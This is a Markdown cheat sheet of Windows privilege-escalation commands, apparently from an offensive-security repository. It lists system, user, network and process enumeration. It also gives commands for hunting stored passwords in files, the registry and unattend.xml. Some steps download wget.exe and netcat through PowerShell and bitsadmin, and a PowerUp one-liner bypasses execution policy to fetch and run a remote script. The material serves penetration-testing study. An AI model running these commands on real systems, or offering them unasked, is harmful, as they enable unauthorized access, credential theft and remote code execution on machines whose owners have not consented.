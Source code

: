 # Windows - Privilege Escalation

Almost all of the following commands are from [The Open Source Windows Privilege Escalation Cheat Sheet](https://addaxsoft.com/wpecs/)

## Windows Version and Configuration

```powershell
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```

Architecture

```powershell
wmic os get osarchitecture || echo %PROCESSOR_ARCHITECTURE%
```

List all env variables

```powershell
set
```

List all drives

```powershell
wmic logicaldisk get caption || fsutil fsinfo drives
```

## User Enumeration

Get current username

```powershell
echo %USERNAME% || whoami
```

List all users

```powershell
net user
whoami /all
```

List logon requirements; useable for bruteforcing

```powershell
net accounts
```

Get details about a user (i.e. administrator, admin, current user)

```powershell
net user administrator
net user admin
net user %USERNAME%
```

List all local groups

```powershell
net localgroup
```

Get details about a group (i.e. administrators)

```powershell
net localgroup administrators
```

## Network Enumeration

List all network interfaces

```powershell
ipconfig /all
```

List current routing table

```powershell
route print
```

List the ARP table

```powershell
arp -A
```

List all current connections

```powershell
netstat -ano
```

List firware state and current configuration

```powershell
netsh advfirewall firewall dump
```

List all network shares

```powershell
net share
```

## Looting for passwords

### Search for file contents**

```powershell
cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt
```

### Search for a file with a certain filename

```powershell
dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
```

### Search the registry for key names

```powershell
REG QUERY HKLM /F "password" /t REG_SZ /S /K
REG QUERY HKCU /F "password" /t REG_SZ /S /K
```

### Read a value of a certain sub key

```powershell
REG QUERY "HKLM\Software\Microsoft\FTH" /V RuleList
```

### Password in unattend.xml

Location of the unattend.xml files

```powershell
C:\unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```

Example content

```powershell
<component name="Microsoft-Windows-Shell-Setup" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" processorArchitecture="amd64">
    <AutoLogon>
     <Password>*SENSITIVE*DATA*DELETED*</Password>
     <Enabled>true</Enabled>
     <Username>Administrateur</Username>
    </AutoLogon>

    <UserAccounts>
     <LocalAccounts>
      <LocalAccount wcm:action="add">
       <Password>*SENSITIVE*DATA*DELETED*</Password>
       <Group>administrators;users</Group>
       <Name>Administrateur</Name>
      </LocalAccount>
     </LocalAccounts>
    </UserAccounts>
```

The Metasploit module `post/windows/gather/enum_unattend` looks for these files.

## Processes Enum

What processes are running?

```powershell
tasklist /v
```

Which processes are running as "system"

```powershell
tasklist /v /fi "username eq system"
```

Do you have powershell magic?

```powershell
REG QUERY "HKLM\SOFTWARE\Microsoft\PowerShell\1\PowerShellEngine" /v PowerShellVersion
```

## Uploading / Downloading files

a wget using powershell

```powershell
powershell -Noninteractive -NoProfile -command "wget https://addaxsoft.com/download/wpecs/wget.exe -UseBasicParsing -OutFile %TEMP%\wget.exe"
```

wget using bitsadmin (when powershell is not present)

```powershell
cmd /c "bitsadmin /transfer myjob /download /priority high https://addaxsoft.com/download/wpecs/wget.exe %TEMP%\wget.exe"
```

now you have wget.exe that can be executed from %TEMP%wget for example I will use it here to download netcat

```powershell
%TEMP%\wget https://addaxsoft.com/download/wpecs/nc.exe
```

## Spot the weak service using PowerSploit's PowerUP

```powershell
powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks
```

## Thanks to

* [The Open Source Windows Privilege Escalation Cheat Sheet by amAK.xyz and @xxByte](https://addaxsoft.com/wpecs/)
* [Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
* [Windows Privilege Escalation Fundamentals](http://www.fuzzysecurity.com/tutorials/16.html)
* [TOP–10 ways to boost your privileges in Windows systems - hackmag](https://hackmag.com/security/elevating-privileges-to-administrative-and-further/)
* [The SYSTEM Challenge](https://decoder.cloud/2017/02/21/the-system-challenge/)